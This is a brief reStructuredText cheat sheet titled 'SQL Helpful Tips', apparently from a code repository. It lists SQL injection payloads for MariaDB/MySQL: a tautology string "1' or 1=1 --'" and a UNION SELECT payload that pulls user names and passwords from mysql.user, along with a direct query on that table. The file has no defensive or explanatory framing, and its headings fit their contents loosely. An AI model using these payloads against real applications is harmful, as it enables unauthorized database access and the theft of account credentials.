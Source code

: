 SQL Helpful Tips
******************

Display current table
#######################

maria-db/MySQL

.. code-block:: console

   1' or 1=1 --'

#Lists users

.. code-block:: console

   SELECT user FROM mysql.user; — priv
   10' UNION SELECT user,password,3 from mysql.user;-- -
